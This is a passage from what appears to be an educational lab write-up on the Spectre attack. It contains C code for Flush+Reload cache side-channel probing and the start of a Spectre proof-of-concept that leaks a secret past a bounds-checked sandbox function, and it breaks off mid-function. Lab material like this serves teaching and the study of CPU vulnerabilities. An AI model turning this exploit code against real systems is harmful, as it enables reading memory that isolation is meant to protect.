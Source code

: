 ```c
      victim(i);
  }

  // Exploit the out-of-order execution
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
      _mm_clflush(&array[i*4096 + DELTA]); 
  victim(97);  

  // RELOAD the probing array
  reloadSideChannel();

  return (0); 
}
```

## Task 4: The Spectre Attack

> There is a secret value in the restricted area (either above the buffer or below it), and the secret’s address is known to the attacker, but the attacker cannot directly access the memory holding the secret value. The only way to access the secret is through the above sandbox function. From the previous section, we have learned that although the true-branch will never be executed if x is larger than the buffer size, at microarchi- tectural level, it can be executed and some traces can be left behind when the execution is reverted.

```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
char    *secret    = "Some Secret Value";   
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  } 
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
```